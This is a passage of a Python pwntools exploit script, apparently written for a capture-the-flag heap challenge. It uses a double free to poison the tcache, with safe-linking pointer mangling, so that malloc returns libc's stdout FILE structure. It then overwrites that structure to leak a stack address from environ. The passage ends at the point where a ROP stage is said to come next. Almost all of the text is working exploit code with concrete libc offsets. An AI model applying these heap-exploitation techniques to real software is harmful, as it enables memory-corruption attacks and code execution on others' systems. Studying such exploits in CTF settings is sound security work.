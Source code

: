 ```python
# free the previous chunk and make it consolidate with the victim chunk
free_letter(0)

# open up a slot in the tcache for our victim
malloc_letter(15, 256, b"aaaa")

# vulnerability (DOUBLE FREE)
# now victim is in tcache
free_letter(1)

# we have fully control over on this chunk
# size should be big enough to overwrite the metadata 
# trick malloc return to arbitrary pointer (stdout file struct to leak a stack addr)
environ = libc_base + 2232832
stdout = libc_base + 2205568
print(f"environ at:  + {hex(environ)}")
print(f"stdout at: + {hex(stdout)}")

payload = b"A" * 264 + p64(0x111)

# addr should be mangled
payload += p64(stdout ^ ((ptr + 6928) >> 12))
malloc_letter(2, 304, payload)

# now malloc returned a pointer to stdout
malloc_letter(3, 256, b"")

### FILE STRUCT arbitrary write

'''
# testing pwntools FileStructure() feature
# print out to compare stuff..
# too big to send, maybe slice it

fp = FileStructure()
fp.flags = 0xfbad1800
fp._IO_write_end = environ + 8
fp.write(environ, 8)
fp._IO_buf_base = environ
fp._IO_buf_end = environ + 8

print(fp)
print(bytes(fp))

malloc_letter(3, 256, new_fp)
'''

# writing from arbitrary memory to stdout
payload = p64(0xfbad1800)
payload += p64(environ) * 3
payload += p64(environ)
payload += p64(environ + 0x8) * 2
payload += p64(environ+8)
payload += p64(environ+8)
malloc_letter(4, 256, payload)

stack_leak = u64(p.recv(8).strip().ljust(8, b'\x00'))
print(f"stack leak: {hex(stack_leak)}")

### with this stack leak, time to ROP our way out of this..
# free victim and previous chunk to do ROP this time

free_letter(1)
```